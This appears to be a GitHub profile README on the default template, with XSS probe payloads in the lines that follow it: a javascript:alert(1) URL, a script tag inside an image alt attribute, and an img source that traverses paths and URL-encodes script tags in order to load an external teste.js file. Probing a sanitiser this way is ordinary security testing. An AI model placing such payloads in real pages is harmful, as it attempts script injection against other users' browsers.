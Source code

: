 - 👋 Hi, I’m @falx00h
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

![text](https://avatars.githubusercontent.com/u/92805783?s=40&javascript:alert(1);)
![

<img src="../../../../../../../\r89shi.github.io/teste.js" alt="\b\<SCRIPT>alert()</SCRIPT>">
<img src= %3cscript%3ehttps://github.com/r89shi/r89shi.github.io/blob/master/teste.js%3c/script%3e >

](()
